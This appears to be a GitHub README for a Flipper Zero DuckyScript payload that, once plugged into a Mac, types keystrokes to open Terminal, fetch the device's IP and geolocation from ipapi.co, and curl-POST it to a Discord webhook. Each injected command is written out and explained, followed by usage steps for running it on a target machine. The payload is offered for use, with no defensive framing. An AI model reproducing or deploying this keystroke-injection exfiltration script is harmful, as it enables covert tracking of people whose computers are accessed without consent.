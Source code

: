 # 📍 IPLogger-FlipZero by bst04

## ℹ️ Description

This script, created by bst04, is designed to work on macOS systems. It opens Terminal, fetches the public IP address of the device, and sends it to a Discord webhook using `curl`.

---

## 📖 Technical Explanation

1. **Initialization**:
    - `DELAY 500`: Waits for 0.5 seconds to ensure the system is ready.
    - `GUI SPACE`: Simulates pressing the "Command" + "Space" keys to open Spotlight Search.
    - `DELAY 500`: Waits for 0.5 seconds for Spotlight to open.
    - `STRING Terminal`: Types "Terminal" to search for the Terminal application.
    - `ENTER`: Opens the Terminal application.

2. **Fetch Public IP Address**:
    - `DELAY 1000`: Waits for 1 second to ensure Terminal is fully opened.
    - `STRING location=$(curl -s https://ipapi.co/json/)`: Fetches the public IP address and stores it in a variable named `location`.

3. **Send IP Address to Discord Webhook**:
    - `DELAY 1000`: Waits for 1 second to ensure the previous command is executed.
    - `STRING curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "content=$location" https://yourwebhook`: Sends the IP address to the specified Discord webhook.

4. **Completion**:
    - `DELAY 30000`: Waits for 30 seconds before concluding the script.

---

## 📜 Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a macOS system.
3. Execute the payload to fetch and send the public IP address to your Discord webhook.

---



